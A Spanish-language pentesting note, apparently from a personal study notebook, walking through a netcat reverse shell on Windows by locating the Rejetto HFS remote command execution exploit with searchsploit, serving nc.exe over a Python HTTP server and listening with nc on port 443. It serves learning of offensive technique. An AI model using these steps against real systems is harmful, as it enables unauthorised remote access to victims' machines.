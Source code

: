 SI bien sabemos que con [[Metasploit#Creacion de listener|Meterpreter]] podemos crear una sesión de una shell, pero en este caso veremos como hacerla con netcat.

Para empezar debemos de tener la manera de la ejecución remota de comando por lo tanto se hará uso de un exploit para HttpFileServer.

	searhsploit http file server
	Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                             | windows/remote/39161.py

Y copiaremos el exploit al directorio actual

	searchsploit -m 39161

Este exploit tiene como finalidad montar un servicio por el puerto 80 localmente el cual contenga el software nc.exe(*Windows*) y que la maquina victima visite nuestro servidor y descargue y lo guarde, una vez mas se ejecuta y exploit para ejecutar el nc.exe y mandar una revert shell a nuestro equipo.

Primero ubicaremos el exe de netcat para windows y montar el servidor http con python.

	locate nc.exe
		/usr/share/windows-resources/binaries/nc.exe
	cp /usr/share/windows-resources/binaries/nc.exe . #copiamos al directorio actual

Ahora montar el servidor http con un modulo de python

	python -m SimpleHTTPServer 80

Nos ponemos en escucha por un puerto para recibir la shell desde bash.

	nc -nlvp 443 